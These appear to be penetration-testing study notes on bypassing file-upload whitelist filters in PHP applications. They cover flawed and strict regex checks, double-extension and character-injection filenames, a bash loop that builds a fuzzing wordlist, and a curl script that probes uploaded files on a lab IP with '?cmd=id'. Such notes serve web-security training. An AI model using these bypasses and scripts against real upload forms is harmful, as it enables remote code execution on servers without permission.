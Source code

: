 Example of whitelist:
```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```
- The issue is due to regex, it only checks whether the file name contains the extension and not if it actually ends with it

## Double Extensions
1. Create a file 'shell.jpg.php' (or instead of php, something the application accepts after fuzzing)

**Strict regex pattern
```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }
```
- This fixes the previous issue and check for the end extension

## Reverse Double Extension
1. Create a file 'shell.php.jpg' (or instead of php, something the application accepts after fuzzing)

## Character Injection
- %20
- %0a
- %00
- %0d0a
- /
- .\
- .
- '''
- :
These characters may end the file name after the character, passing the whitelist.

Bash script to generate all permutations of the file name:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phar' '.phtml'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```
- With this, we can run Burp Intruder fuzzing

**Remember: uncheck URL Encode in Burp Intruder!!!!!

Bash script to check if php code was executed:
```bash
#!/bin/bash
#usage: supply your filename wordlist with the execution of this script. It replaces each line with $line 
#./repeat.sh wordlist.txt

input=$1
while IFS= read -r line
do
        echo 'doing' $line':'
        curl -I http://139.59.171.86:32638/profile_images/$line?cmd=id
done < "$input"
```
